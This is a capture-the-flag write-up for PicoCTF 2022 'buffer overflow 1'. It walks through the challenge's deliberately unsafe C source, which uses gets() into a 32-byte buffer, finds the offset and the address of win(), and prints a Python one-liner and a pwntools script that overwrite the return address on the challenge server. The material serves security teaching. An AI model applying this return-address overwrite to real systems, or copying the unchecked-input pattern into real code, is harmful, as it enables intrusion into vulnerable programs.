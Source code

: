 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 1"
categories:
  - Binary Exploitation
tags:
  - pwn
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
author_profile: false
sidebar:
  nav: "navbar"
---
```


This is the first "proper" binary exploitation (ret2win) challenge in this CTF.

For this challenge, I found John Hammond's [walkthrough video](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB) to be extremely helpful and informative.

## My Solution

Firstly, let's download the provided files.

```bash
wget https://artifacts.picoctf.net/c/187/vuln
wget https://artifacts.picoctf.net/c/187/vuln.c
```

Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:

```bash
$ file vuln
>> vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, 
BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

From this, we can observe that the file:

- is a 32-bit ELF file,
- is not stripped,
- is compiled on a little-endian system, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.

```c
...
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We can see that the provided file has a read buffer size of 32, and has a `win()` function present. The `gets()` function is also used to retrieve user input within the `vuln()` function. Lastly, the program also prints out a return address using a `get_return_address()` function.

Evidently, we will need to control the return address to call the `win()` function. Here, the program helps us to visualize the return address by printing it to standard output.

I then decided to do some experimenting to see how many 'A's will cause the printed return address to be overwritten. Without causing any segmentation fault, we observe that the program returned to this address: `0x804932f`.

I then used GDB to disassemble the program, in order to see which instruction this address points to.

```bash
$ gdb vuln
>> ...
gef> disas main
...
 0x0804932f <+107>:   mov    eax,0x0
...
```

It appears that this specific address is bound to a move instruction in `main()`.

Through further trial and error, I found that around 44 'A's were required to clobber the return address (which was seen from the presence of 41s in the printed address - 41 is the hex representation of A).

I can then run `readelf -s vuln` to look for the address of `win()`. Through this, we note that the address is `0x080491f6`.

Now, we can generate the payload. In this case, we want to order our bytes for `win()` in "reverse", since the executable runs on a little-endian system.

Using Python 2.7 to pipe the payload directly into the program:

```bash
python -c "print 'A'*44 + '\xf6\x91\x04\x08'" | nc saturn.picoctf.net 60801 
```

Alternatively, using Python 3 and pwntools to send the payload through a solver script:

```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 60801) # for remote execution

# payload buffer
payload = b'A' * 44 # offset of 44 to EIP
payload += p32(0x080491f6) # address of win()

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```

Both methods allow us to obtain the flag.

```bash
[+] Opening connection to saturn.picoctf.net on port 60801: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Please enter your string:'
[*] Switching to interactive mode

Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 60801
```

## Learning Takeaways

Some general tips I picked up here:

- Play around with the program to test the number of dummy characters required to clobber the return address of our intended functions. Or, how many characters do we need to determine the offset of EIP?
  - We also can use GDB/GEF to determine the offsets, but that will be covered in a later writeup. :)
- Get familiar with `readelf`.
- Python 2 can be used to generate simple payloads, but for more complex payloads and ROP chains, it may be better to use pwntools and Python 3 instead.
  - Interestingly, Python 2 lets us directly pipe in the payload into the program using a print statement, but we can't seem to do this with Python 3 (not even after converting the payload into a bytestring). It could be to do with the behaviour of the print function in Python 3, where it appends a newline character after the payload string. Consequently, this newline character modifies the payload and makes it incorrect.
- Note the differences between little-endian and big-endian.

## References

- [John Hammond (YouTube): 32-bit x86 LINUX BUFFER OVERFLOW (PicoCTF 2022 #31 'buffer-overflow1')](https://www.youtube.com/watch?v=k4hqdVo3cqk&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=31&pp=iAQB)
